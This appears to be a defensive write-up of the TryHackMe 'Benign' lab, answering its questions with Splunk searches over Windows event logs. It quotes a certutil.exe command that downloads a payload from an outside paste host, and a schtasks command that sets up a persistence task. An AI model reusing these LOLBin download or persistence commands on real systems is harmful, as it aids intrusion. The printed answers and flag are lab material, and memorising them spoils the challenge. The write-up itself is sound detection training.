







# Benign

## Overview

**Benign** is a TryHackMe challenge focused on investigating Windows event logs using Splunk.

The investigation involves identifying suspicious user activity, scheduled tasks, LOLBin abuse, payload downloads, and external connections.

## Tools Used

* Splunk
* Windows Event Logs
* SPL (Search Processing Language)

---

## Investigation

### Q1 — Logs Ingested in March 2022

**Question:**
How many logs are ingested from the month of March, 2022?

### Investigation

I selected the time range from **1 March 2022 to 1 April 2022** and searched the `win_eventlogs` index.

```spl
index="win_eventlogs"
```

The search returned **13,959 events**.



**Answer:** `13959`

---

### Q2 — Identifying the Imposter Account

**Question:**
There seems to be an imposter account observed in the logs. What is the name of that user?

### Investigation

I searched the logs for usernames and looked for an unusual account that appeared to be impersonating a legitimate user.

```spl
index="win_eventlogs" | stats count by UserName
```

The results showed the username **Amel1a**, which is an impersonation of the legitimate account **Amelia**.



**Answer:** `Amel1a`

---

### Q3 — HR User Running Scheduled Tasks

**Question:**
Which user from the HR department was observed to be running scheduled tasks?

### Investigation

The HR department had three users: `Haroon`, `Chris.fort`, and `Diana`.

I searched their process activity for `schtasks.exe`, the Windows utility used to create and manage scheduled tasks.

```spl
index="win_eventlogs" UserName="Haroon" OR UserName="Chris.fort" OR UserName="Diana" ProcessName="*schtasks.exe" | table CommandLine
```

The result showed:

```text
/create /tn OfficUpdater /tr "C:\Users\Chris.fort\AppData\Local\Temp\update.exe" /sc onstart
```

This indicates that **Chris.fort** executed `schtasks.exe` to create a scheduled task.



**Answer:** `Chris.fort`

---

### Q4 — HR User Executing a LOLBin

**Question:**
Which user from the HR department executed a system process (LOLBin) to download a payload from a file-sharing host?

### Investigation

The hint pointed toward `certutil.exe`. I searched the process activity of the HR users for executions of `certutil.exe`.

```spl
index="win_eventlogs" UserName="haroon" OR UserName="Chris.fort" OR UserName="Diana" ProcessName="*certutil.exe" | table UserName
```

The result showed that **haroon** executed `certutil.exe`.



**Answer:** `haroon`

---

### Q5 — LOLBin Used to Download the Payload

**Question:**
To bypass the security controls, which system process (LOLBin) was used to download a payload from the internet?

### Investigation

I investigated the `certutil.exe` execution associated with the suspicious user.

```spl
index="win_eventlogs" UserName="haroon" ProcessName="*certutil.exe" | table CommandLine
```

The `CommandLine` field showed:

```text
certutil.exe -urlcache -f - https://controlc.com/e4d11035 benign.exe
```

This shows that the legitimate Windows utility **certutil.exe** was being abused to download a file from an external host.



**Answer:** `Certutil.exe`

---

### Q6 — Date of Binary Execution

**Question:**
What was the date that this binary was executed by the infected host?

**Format:** `YYYY-MM-DD`

### Investigation

I checked the timestamp associated with the `certutil.exe` process creation event.

The event occurred on:

```text
3/4/22 10:38:28 AM
```



Converting the date to the requested format:

**Answer:** `2022-03-04`

---

### Q7 — Third-Party Site Used for the Download

**Question:**
Which third-party site was accessed to download the malicious payload?

### Investigation

I examined the `CommandLine` field from the `certutil.exe` execution.

```spl
index="win_eventlogs" UserName="haroon" ProcessName="*certutil.exe" | table CommandLine
```

The command line contained:

```text
certutil.exe -urlcache -f - https://controlc.com/e4d11035 benign.exe
```

The third-party site being accessed was **controlc.com**.


**Answer:** `controlc.com`

---

### Q8 — File Saved on the Host

**Question:**
What is the name of the file that was saved on the host machine from the C2 server during the post-exploitation phase?

### Investigation

The same command line shows the filename specified after the download URL:

```text
certutil.exe -urlcache -f - https://controlc.com/e4d11035 benign.exe
```

The downloaded file was saved as **benign.exe**.


**Answer:** `benign.exe`

---

### Q9 — Malicious Content

**Question:**
The suspicious file downloaded from the C2 server contained malicious content with the pattern `THM{..........}`. What is that pattern?

### Investigation

I opened the URL identified during the `certutil.exe` investigation. The ControlC page contained the flag directly.



**Answer:**

```text
THM{KJ&*H^B0}
```

---

### Q10 — URL Connected To by the Infected Host

**Question:**
What is the URL that the infected host connected to?

### Investigation

The URL was visible in the `CommandLine` field from the `certutil.exe` execution:

```text
certutil.exe -urlcache -f - https://controlc.com/e4d11035 benign.exe
```


**Answer:** `https://controlc.com/e4d11035`

---

## Attack Chain Observed

The investigation can be summarized as:

```text
Suspicious User Activity
        ↓
Scheduled Task Execution
        ↓
certutil.exe Abuse
        ↓
Connection to controlc.com
        ↓
Download of benign.exe
        ↓
Malicious Content
```

## Key Takeaways

This challenge provided practical experience with:

* Searching Windows Event Logs in Splunk.
* Investigating suspicious user accounts.
* Identifying scheduled task execution.
* Understanding **LOLBins** and their abuse by attackers.
* Detecting `certutil.exe` being used to download a payload.
* Using process command-line data to identify URLs and downloaded files.
* Correlating timestamps, usernames, processes, and command-line arguments.
* Extracting useful **Indicators of Compromise (IOCs)** from endpoint telemetry.

### IOCs Identified

| Type                  | Value                           |
| --------------------- | ------------------------------- |
| Suspicious User       | `Amel1a`                        |
| Scheduled Task User   | `Chris.fort`                    |
| Payload Download User | `haroon`                        |
| LOLBin                | `certutil.exe`                  |
| Downloaded File       | `benign.exe`                    |
| Domain                | `controlc.com`                  |
| URL                   | `https://controlc.com/e4d11035` |
| Execution Date        | `2022-03-04`                    |
